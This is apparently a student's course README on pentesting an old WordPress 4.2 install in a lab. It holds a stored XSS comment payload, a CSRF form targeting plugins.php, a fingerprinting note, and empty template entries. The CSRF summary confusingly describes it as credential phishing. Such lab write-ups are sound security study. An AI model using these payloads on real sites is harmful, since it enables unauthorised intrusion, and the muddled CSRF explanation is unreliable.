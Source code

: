 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Unauthenticated Stored Cross-Site Scripting
  - [ ] Summary: This is a XSS attack which stores a script in the comment section of a post. When an unaware user navigates to the link, they are constantly bombabred with the hello world pop-up
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://gph.is/2Gf2eF0
  - [ ] Steps to recreate: I copied the code from the Kali Linux and added a bunch As to the end of the script to overload the comment. I then pasted the script onto the comment section and the code is executed
  - [ ] Affected source code:<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
    
2. Filesystem Credentials Dialog CSRF
  - [ ] Summary: This attack manipulates the login page and uses a fake login button to lure the user into logging into a malicious website set up by the attacker, stealing their usernames and passwords. 
    - Vulnerability types: CSRF
    - Tested in version:4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: https://gph.is/2L2LCE3
  - [ ] Steps to recreate: I first deleted the original login button on wordpress. Then I used html code given on the website and pasted that onto the login form so that it looks like a regular login button. Information that are being inputted into that website are then captured by burp and the attacker can use those captured credentials to login.
  - [ ] Affected source code: 
  <html>
   <body>
      <form action="http://<target>/wp-admin/plugins.php" method="POST">
         <input type="hidden" name="hostname" value="sumofpwn.nl" />
         <input type="hidden" name="connection_type" value="ftp" />
         <input type="hidden" name="password" value="password" />
         <input type="submit" value="Submit request" />
      </form>
   </body>
</html>
    - https://sumofpwn.nl/advisory/2016/cross_site_request_forgery_in_wordpress_connection_information.html
    
1. Fingerprinting
  - [ ] Summary: This readme file exposes the version number of wordpress being used. This allows the attacker to look for vulnerabilities within that version and exploit it.
    - Vulnerability types: 
    - Tested in version: 4.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: https://gph.is/2GoPBY4
  - [ ] Steps to recreate: 
  - [ ] Affected source code: http://wpdistillery.vm/readme.html
    - [Link 1]
    
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

